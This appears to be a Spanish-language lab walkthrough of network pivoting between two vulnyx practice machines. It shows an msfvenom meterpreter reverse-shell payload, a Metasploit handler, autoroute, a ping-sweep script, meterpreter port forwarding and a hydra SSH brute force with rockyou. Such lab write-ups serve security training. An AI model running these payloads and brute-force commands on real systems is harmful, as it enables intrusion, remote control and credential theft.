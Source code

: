 Usaremos la máquina friendly 1 intermedia y la máquina basic de vulnyx máquina final:
![[Pasted image 20231112175352.png]]
Procedemos con la intrusión en la máquina friendly 1 hasta ser usuario root:
![[Pasted image 20231112180130.png]]
Ahora vamos a recibir esta conexión como meterpreter en la máquina atacante, por lo que creamos un nuevo payload con msfvenom:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
```
Y nos lo compartimos con la máquina víctima:
![[Pasted image 20231112180330.png]]
![[Pasted image 20231112180341.png]]
Y usamos el multi/handler de metasploit cargando el payload de meterpreter:
```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```
![[Pasted image 20231112180455.png]]
![[Pasted image 20231112180530.png]]
Y recibimos el meterpreter:
![[Pasted image 20231112180542.png]]
Vemos las interfaces de red con el comando ipconfig, donde identificamos la segunda interfaz de red:
![[Pasted image 20231112180611.png]]
Enrutamos el tráfico con el módulo de autoroute:
```bash
use /multi/manage/autoroute
```
![[Pasted image 20231112180736.png]]
Y ahora tenemos que encontrar equipos levantados dentro de esta red interna de 10.10.10.0/24, por lo que usamos el siguiente script:
```bash
#!/bin/bash

for i in {1..255}; do
    timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
    if [ $? -eq 0 ]; then
        echo "El host 10.10.10.$i está activo"
    fi
done
```
Lo compartimos:
![[Pasted image 20231112180923.png]]
Lo recibimos:
![[Pasted image 20231112181016.png]]
Y encontramos el host objetivo:
![[Pasted image 20231112181055.png]]
Ahora tenemos que hacerle un escaneo de puertos a esta dirección IP, por lo que usamos el módulo de portscan/tcp:
![[Pasted image 20231112181214.png]]
Y con los siguientes comandos realizamos el port forwarding, de tal forma que nos vamos a traer tanto el puerto 22 como el puerto 631:
```bash
portfwd add -l 222 -p 22 -r 10.10.10.8
portfwd add -l 631 -p 631 -r 10.10.10.8
```
![[Pasted image 20231112181340.png]]
Y aquí vemos el contenido de lo que corre por el puerto 631:
![[Pasted image 20231112181426.png]]
Detectamos el usuario:
![[Pasted image 20231112181437.png]]
Por lo que atacamos al puerto ssh que también nos hemos traído en el puerto 222 de mi máquina local:
```bash
hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1 -s 222
```

